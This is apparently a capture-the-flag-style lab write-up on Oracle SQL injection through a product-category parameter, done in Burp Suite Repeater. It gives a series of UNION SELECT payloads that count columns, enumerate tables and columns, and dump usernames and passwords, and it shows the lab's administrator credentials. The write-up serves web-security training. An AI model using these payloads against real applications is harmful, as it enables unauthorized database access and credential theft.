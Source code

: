 ```yaml
---
custom_edit_url: null
sidebar_position: 6
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/097e09a8-3611-44ad-8c63-4cdee0f5ac0c)

Let's filter for `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/0ea53d5a-277e-4d72-a3eb-1aead2238d54)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.


Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test' FROM dual--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/4c2de013-63ad-4250-9d58-132cf7b99bd1)

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test', 'test' FROM dual--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/11d7a47e-8762-4bf1-8094-2ae800bc1515)

Now that we know the current query has two columns, we can start enumerating the tables.

```
' UNION SELECT table_name, NULL FROM all_tables--
```

![6](https://github.com/Knign/Write-ups/assets/110326359/9e7cb098-497e-4323-92aa-aed45433158b)

Next, we need to find the columns present in the `USERS_EABGJF` table.

We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_EABGJF'--
```

![7](https://github.com/Knign/Write-ups/assets/110326359/0d024248-6cde-4535-a7a6-cebd2d18a213)

We can now retrieve the usernames and password from the `USERNAME_LIVOZB` and `PASSWORD_XJPXQQ` columns respectively.

For that we have to set the `category` parameter to the following:

```
' UNION SELECT USERNAME_LIVOZB, PASSWORD_XJPXQQ FROM USERS_EABGJF--
```

![8](https://github.com/Knign/Write-ups/assets/110326359/959d1a57-c6a4-451d-8eab-ca633d6fcb94)

We can now login as the administrator using the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | ayzzulz0enewtllx1szu         |

![9](https://github.com/Knign/Write-ups/assets/110326359/19c90da4-19dc-4d5f-8dd5-0c91f2366e30)

We have solved the lab

![10](https://github.com/Knign/Write-ups/assets/110326359/2a37599b-f7ee-45f3-af07-e35b06fef02d)
